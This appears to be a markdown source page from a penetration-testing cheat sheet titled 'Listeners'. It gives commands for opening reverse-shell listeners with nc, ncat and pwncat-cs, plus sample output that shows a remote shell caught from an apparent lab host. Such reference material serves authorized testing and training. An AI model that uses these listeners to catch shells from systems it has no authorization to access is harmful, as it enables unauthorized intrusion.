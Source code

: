 ```yaml
---
title: "Listeners"
date: 2024-6-26
tags: ["Ncat", "Listener", "Reverse Shell", "Nc", "Pwncat"]
---
```


### Listener Tools

{{< tab set1 tab1 >}}nc{{< /tab >}}
{{< tab set1 tab2 >}}ncat{{< /tab >}}
{{< tab set1 tab3 >}}pwncat{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337  
listening on [any] 1337 ...
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Default listening on both ipv4 and ipv6
rlwrap ncat -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap ncat -lvnp 1337
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
pwncat-cs -lp <LOCAL_PORT>
```

```console
# After getting a connection
back
```

```console {class="sample-code"}
$ pwncat-cs -lp 1337       
[11:43:14] Welcome to pwncat 🐈!                                                         __main__.py:164
[11:43:25] received connection from 10.10.10.55:33496                                         bind.py:84
[11:43:27] 10.10.10.55:33496: registered new host w/ db                                   manager.py:957
(local) pwncat$ back
(remote) atanas@kotarak-dmz:/$ 
```

<small>*Ref: [pwncat](https://github.com/calebstewart/pwncat)*</small>

{{< /tabcontent >}}
